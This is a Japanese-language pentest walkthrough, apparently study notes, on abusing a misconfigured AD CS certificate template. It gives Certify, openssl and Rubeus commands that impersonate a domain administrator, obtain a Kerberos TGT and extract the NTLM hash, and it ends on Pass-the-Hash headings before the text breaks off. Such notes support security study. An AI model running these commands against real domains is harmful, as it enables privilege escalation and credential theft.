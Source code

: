 ```

この証明書テンプレートに基づいて新しい証明書を要求しているユーザーが、  
別のユーザー(ドメイン管理者ユーザーを含む任意のユーザー)の証明書を要求できることを示す  

```
msPKI-Certificate-Name-Flag: ENROLLEE_SUPPLIES_SUBJECT
```

#### AD内のClientを証明できる脆弱性

Client Authenticationに注目する。  
この証明書テンプレートから生成される証明書を使って、AD内のClientを証明できる    


```
pkiextendedkeyusage: Client Authentication, Encrypting File System, Secure Email
```

#### 新しい証明書を要求できる脆弱性

AD内の認証されたユーザーが、この証明書テンプレートに基づいて生成される  
新しい証明書を要求できることを示している。  

```
Enrollment Rights: NT Authority\Authenticated Users
```


### Certifyによる証明書の要求  

#### オプション
``` /ca ``` - リクエスト送信先となる認証局サーバーを指定する  

``` /template ``` - 新しい証明書の生成に使用する証明書テンプレートを指定する  

``` /altname ``` - 新しい証明書を生成する必要があるADユーザーを指定する  


 ```
certify.exe request /ca:<$certificateAuthorityHost> /template:<$vulnerableCertificateTemplateName> /altname:<$adUserToImpersonate>
```

### 生成した鍵でkerberos認証を行う

#### 証明書の作成
cert.pemとprivate.keyを作成していることが前提  
出力形式はpfx形式にする

```
openssl pkcs12 -in cert.pem -inkey private.key -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
#### rubeusを使用してkerberos認証でTGTを取得し、NTLMハッシュを取得する
``` /getcredentials ```オプションでNTLMハッシュを取得できる  

```
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /password:<pfxを生成した際に設定したパスワード>
```

  ### Pass-the-Hash攻撃
  パスワードハッシュ値を平文に戻すことなく認証を実行する手法  
  →NTLMハッシュ値のみでNet-NTLMv2応答値を生成して認証することが可能  

  ### Overpass-the-Hash攻撃
```